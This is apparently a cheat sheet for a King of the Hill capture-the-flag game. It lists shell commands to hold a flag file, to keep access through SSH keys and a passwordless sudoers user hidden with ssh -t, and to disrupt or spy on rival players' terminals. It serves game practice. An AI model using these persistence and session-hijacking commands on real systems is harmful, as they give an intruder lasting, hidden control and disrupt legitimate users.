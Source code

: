 # King Of The Hill

## Owning king.txt file
### chattr
If you give the manual page of chattr binary a read, you'll see that it can set immutable flags on files. That means, even root cannot make mutations in the file without removing that immutable bit.

```bash
chattr +i /root/king.txt
```

This is used by many players to make that king file immutable and hence persisting their name in that file.
To get the upper hand in game, use another bit, 'append-able' on king.txt. This bit makes the file append-able only, and since most of the players 'write' in the file and not append, hence they can't modify the file even though they removed the immutable bit.

Now almost always whoever uses the chattr binary first, either deletes it (foolish move) or hides it somewhere.
Once that's done, you don't have much choice but to either upload your binary or hope that no one deleted busybox from the machine.

```bash
busybox add chattr
```

### clobber
Now, this is a tricky bit, here, you can set the environment variable setting of root user to prevent overwriting in the files.
Hence, the word clobber, This means that the user cannot add anything to any file using > operator.

Basic command is `set -o noclobber`

But this will only be effective in current shell, so to make it persistent across entire machine, add this to bashrc of root and source that.

### cron
You can add your username automatically every minute by putting the following line into `/etc/crontab`
```bash
* * * * * echo "[usernameHere]" > /root/king.txt >/dev/null 2>&1
```

### while loop
```bash
while [ 1 ]; do echo [usernameHere] > /root/king.txt 2>/dev/null; sleep 0.1; done
```

## Persistence
### SSH AuthKey
You can put your ssh keys in user/root `authorized_keys`, so you can always ssh in using them.

> You can use ssh -t to hide your session from tty.

### adduser
You can use the command `adduser` to add a new user.
Then, you can add the following line into `/etc/sudoers` to give unlimited permissions.
```bash
[usernameHere]  ALL=(ALL:ALL) NOPASSWD:ALL
```

## Defending
You can use different commands like `w`, `who`, `ps aux | grep pts` to see who else is on the system so far.

### Killing Processes
```bash
cat /dev/urandom > /dev/pts/$PTS
```

```bash
kill -9 $PID
```

### Hijacking Terminal
```bash
script /dev/pts/$PTS
```

### Capture PTS Output
Get the process ID of the PTS with
```bash
ps -t pts/$PTS
```

```bash
sudo strace -e write=0,1,2 -e trace=write -s1000 -fp $PID 2>&1 \
| grep --line-buffered -o '".\+[^"]"' \
| grep --line-buffered -o '[^"]\+[^"]' \
| while read -r line; do
    printf "%b" $line;
done
```

### Removing Persistence
- Comment out `/etc/password`
- Remove authorized_keys in `.ssh` folder

Taken from https://tryhackme.com/resources/blog/guide-to-king-of-the-hill
